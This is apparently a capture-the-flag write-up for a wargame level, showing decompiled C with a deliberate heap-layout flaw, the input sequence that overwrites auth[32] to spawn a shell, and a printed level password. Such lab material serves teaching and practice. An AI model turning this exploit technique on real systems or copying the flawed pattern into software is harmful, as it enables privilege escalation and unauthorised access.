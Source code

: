 ```C

char *auth;
int  service;

int  main(int argc, const char **argv, const char **envp)
{
  char s[5];     // [esp+20h] [ebp-88h] 
  char v5[2];    // [esp+25h] [ebp-83h] 
  char v6[129];  // [esp+27h] [ebp-81h] 

  while (1)
  {
    printf("%p, %p \n", auth, &service);

    if (!fgets(s, 128, stdin))
        break;
    if (!memcmp(s, "auth ", 5))
    {
        auth = (char *)malloc(4);
        *auth = 0;

        if (strlen(v5) <= 0x1E)
            strcpy(auth, v5);
    }

    if (!memcmp(s, "reset", 5))
        free(auth);

    if (!memcmp(s, "service", 6))
        service = (int)strdup(v6);

    if (!memcmp(s, "login", 5))
    {
        if (*(auth + 32))
            system("/bin/sh");
        else
            fwrite("Password:\n", 1, 0xAu, stdout);
    }
  }
  return 0;
}
```

- The global variable auth is allocated with malloc(4)   -> 0x804a008
- The global variable service is allocared with strdup() -> 0x804a018

We see that there is 16 bytes between auth and service. We want the 32th bytes after auth to be different than 0. 

```bash
> auth     # 0x804a008

> serviceABCDEFGHIJKLMNOP  # Writing enough character so auth[32] is different than 0 (The buffer 's' will overwrite 'v6' that is actually strdup in 'service' memory space)

> login

$ whoami
level9

$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
